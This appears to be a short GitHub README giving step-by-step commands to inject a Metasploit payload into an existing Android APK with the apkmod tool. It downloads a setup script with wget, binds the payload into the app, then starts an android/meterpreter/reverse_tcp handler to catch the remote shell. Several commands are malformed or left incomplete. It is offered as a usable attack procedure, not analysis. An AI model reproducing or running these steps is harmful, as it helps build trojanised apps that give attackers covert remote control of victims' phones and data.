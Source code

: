 # Metasploit-binding-payload-in-existing-apk
Metasploit binding payload in existing apk  using apkmod method

$ apt update &&apt upgrade --y

$ pkg install wget

$ pkg install unstable-repo

$ wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh

$ apk mod -u

$ A

$ apkmod -b /sdcard/hack/org.apk -o /sdcard/hack/binded_org.apk LHOST=127.0.0.1 LPORT=4444

$ msfconsole

$ use exploit/multi/handler

$ set payload android/meterpreter/reverse_tcp

$ set lhost

$ set lport

$ exploit



                                               ---Jack Daniel


